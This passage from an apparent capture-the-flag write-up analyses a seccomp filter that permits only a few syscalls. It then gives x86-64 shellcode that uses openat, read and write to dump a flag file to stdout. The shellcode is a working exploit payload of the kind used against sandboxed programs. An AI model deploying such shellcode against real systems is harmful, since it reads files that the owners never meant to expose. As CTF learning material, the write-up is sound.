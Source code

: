 
So we only have those syscalls enabled: 
- 0x0 **read**
- 0x1 **write**
- 0xf rt_sigreturn
- 0x3c exit
- 0xe7 exit_group
- 0x101 **openat**

Knowing that, we need to **open** the file, **read** from it and **write** the output back to the stdin.

I never heard about `openat` before so a quick look at the [man page](https://man7.org/linux/man-pages/man2/open.2.html) told me more about it.

TL;DR
`int openat(int dirfd, const char *pathname, int flags);`

The only difference with `open` is the first parameters, `dirfd` that let us control the directory of the relative path.

But there's one thing I saw something that made me go tunnel vision and forgot about the rest (You'll see later why it was a mistake):
`If the pathname given in pathname is absolute, then dirfd is ignored.`

## Exploiting ?

At this point, my shellcode looked like this ([cool link about syscalls btw](https://syscalls.w3challs.com/?arch=x86_64)):
```asm
; openat(0x0, "/home/iloveassembly2", 0x0)
mov    rax, 0x101
xor    rdi, rdi    				; dirfd = 0x0
movabs rsi,0x7478742e67
push   rsi
movabs rsi,0x616c662f32796c62
push   rsi
movabs rsi,0x6d6573736165766f
push   rsi
movabs rsi,0x6c692f656d6f682f
push   rsi
lea    rsi, [rsp]				; pathname = "/home/iloveassembly2/flag.txt"
xor    rdx, rdx					; flag     = 0x0  (R_ONLY)
syscall

push   rax 						; saving the filedescriptor
sub	   rsp, 0x20				; making 0x20 of space on the stack

; read(0x3, buffer, 0x20)
xor    rax,rax
mov    rdi,QWORD PTR [rsp+0x20] ; fd     = saved filedescriptor
mov    rsi,rsp                  ; buffer = stack_buffer
mov    rdx,0x20					; size   = 0x20
syscall

; write(0x1, buffer, 0x20)
mov    rax, 0x1
mov    rdi, 0x1 				; fd     = stdout
mov    rsi, rsp 				; buffer = stack_buffer
mov    rdx, 0x20 				; size   = 0x20
syscall
```
